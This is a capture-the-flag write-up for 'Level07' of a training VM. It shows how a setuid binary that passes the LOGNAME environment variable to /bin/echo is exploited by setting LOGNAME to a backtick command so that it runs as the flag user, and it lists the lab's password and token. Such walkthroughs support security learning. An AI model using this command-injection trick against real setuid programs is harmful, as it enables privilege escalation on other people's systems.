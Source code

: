 # Level07 - Flag07

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level07 | `wiok45aaoguiboiki2tuin6ub` |
| flag07  |                             |
| token   | `fiumuikeil55xe9cu4dood66h` |

## Steps to resolve on VM

1. Connect to `level07` user and notice there is an executable owned by `flag07` user

```bash
su level07
# Enter the token

ls -l
> -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

2. Check the files

```bash
# By executing it, it prints us "level07"
./level07
> level07

# We check the content executed by this executable
strings level07
> [...]
> getenv
> [...]
> LOGNAME
> /bin/echo %s 
> [...]
> /home/user/level07/level07.c
> [...]
# We can see that it's a C program that prints via 'echo'

# And we notice that 'getenv' have been used, probably with the env variable "LOGNAME"
cat $LOGNAME
> level07
export LOGNAME=test
./level07
> test
# Let's exploit that
```

3. Exploit LOGNAME env variable

```bash
export LOGNAME=\`getflag\`

./level07
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## Sources

### SHELL

- [getenv](http://www0.cs.ucl.ac.uk/staff/W.Langdon/getenv/)